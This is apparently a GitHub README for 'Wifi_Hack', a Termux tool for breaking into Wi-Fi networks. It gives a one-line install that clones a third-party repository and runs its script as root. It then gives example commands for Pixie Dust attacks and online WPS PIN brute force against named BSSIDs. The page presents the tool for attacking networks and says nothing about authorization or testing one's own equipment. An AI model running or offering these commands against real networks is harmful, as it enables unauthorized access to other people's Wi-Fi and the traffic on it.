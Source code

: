 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
apt update && apt upgrade && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && git clone https://github.com/Gtajisan/FxWiFi && cd FxWiFi && chmod +x farhanX.py && sudo python farhanX.py --help
```
#### Example : `sudo python farhanX.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python farhanX.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python farhanX.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python farhanX.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
